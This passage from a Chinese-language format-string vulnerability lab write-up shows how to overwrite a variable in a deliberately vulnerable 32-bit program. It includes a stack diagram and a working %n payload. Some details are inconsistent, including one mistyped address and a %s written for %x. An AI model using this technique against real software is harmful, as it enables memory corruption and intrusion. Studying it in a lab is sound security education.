 输入`%x.%x.%x.%x.%x`可以发现，第5个`%x`打印出来了var的内容`11223344`。

### 1.4 攻击三：修改内存中的程序数据

首先，根据运行`./vul_32`程序打印的值，可知变量var的地址，我的机器上为`0xfffffd1c4`。

由于vul_32的栈空间如下：

```bash
Higher Address
+---------------------------------------+ 
| Previous Stack Frame (e.g., main)     |
+---------------------------------------+ 
| Return Address for `printf` Call      |  ←  Return to `fmtstr` after `printf(input)`
+---------------------------------------+ 
| Saved EBP                             |  ←  Current EBP (Stack Base Pointer)
+---------------------------------------+ 
| Locals of `fmtstr` Function:          |
|   - input[100] (char array)           |  ←  Buffer storing user input (address = 0xffffd0a0)
|     +---------------------------------+    (e.g., user input is stored from input[0] to input[99])
|     | ...                             |  ←  Remaining format string (".%x.%x.%x.%x.%x.%n")
|     | input[5]   = '%'                |  
|     | input[4]   = '.'                |  ←  First '.' in the input string "����.%x.%x.%x.%x.%x.%n"
|     | input[0-3] = 0xffffd1c4         |  ←  User's input: 4 bytes of `var`'s address (0xffffd1c4)
|     +---------------------------------+
|   - var (int) = 0x11223344            |  ←  Address of `var` = 0xffffd1c4 (below `input`)
+---------------------------------------+ 
| Arguments for `printf` Call:          |  ←  **Parameter Area**
|   - Implicit "Arguments"              |  ←  We do not know how many arguments here before reaching var
|   - Format String Pointer (input)     |  ←  Address of `input` (0xffffd0a0) = 1st argument
|     +---------------------------------+
Lower Address
```

我们需要知道要用多少个`%x`来消耗栈上的数据才能够让va_list指向我们的input内容。已知var的地址和input[0]地址相邻，又再Attack 2中我们发现了5个`%s`刚好打印出var的内容。因此我们在`input`开头写入&var地址，然后通过第6个`%n`参数就可以实现将对var内容的修改了。

```bash
# 根据如下命令生成输入程序的字符串：
echo $(printf "\xc4\xd1\xff\xff").%x.%x.%x.%x.%x.%n > input
# 执行程序：
./vul_32 < input
# 变量var处的值改变
...
...
Data at target address: 0x25 # 不同机器可能数值不同
```

**举一反三：**

既然理解了input和var在栈空间的关系，以及printf读取栈上数据的逻辑和顺序，那么攻击载荷还可以作出如下的变通：
